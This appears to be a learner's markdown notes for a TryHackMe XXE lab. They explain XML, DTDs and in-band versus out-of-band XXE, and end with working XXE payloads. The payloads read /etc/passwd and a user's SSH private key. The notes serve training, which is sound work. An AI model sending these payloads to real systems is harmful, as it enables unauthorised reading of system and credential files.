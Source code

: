 # Room
https://tryhackme.com/room/xxe

# Task 1 - Deploy
XXE = XML External Entity.  It abuses features of the XML parsers and data can allow an attacker to interact with the backend
* Two types of XXE
    * In band - an attacker can receive an immediate response
    * Out of band - no immediate response, attacker has to reflect the payload to their own server to get results

# Task 2 - eXtensible Markup Language
XML is a markup language that defines a set of rules for encoding documents, it is human and machine readable
* Attributes of XML
    * platform independent
    * data stored and transported can be changed at any time
    * allows validation using DTD and a schema
    * simplifies data sharing since no conversion between different systems is required
* Syntax
    * document header - prolog
    ```
    <?xml version="1.0" encoding="UTF-8"?>
    ```
    * root element - required
    * children elements - data
    * tags are case sensitive
    * can use attributes
# Task 3 - DTD
DTD = Document Type Definition.  DTD defines the structure, legal elements, and attributes of an XML document
* Saved with dtd file extension
* Uses !DOCTYPE, !ELEMENT, and !ENTITY structures

# Task 4 - XXE Payload
XXE payloads allow you to read data

# Task 5 - Exploiting
* Display your name
    ```
    <!DOCTYPE replace [<!ENTITY name "rogers"> ]>
    <userInfo>
    <firstName>bob</firstName>
    <lastName>&name;</lastName>
    </userInfo>
    ```
* Display /etc/passwd
    ```
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>    
    ```
* Display SSH private key
    ```
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
    <root>&read;</root>        
    ```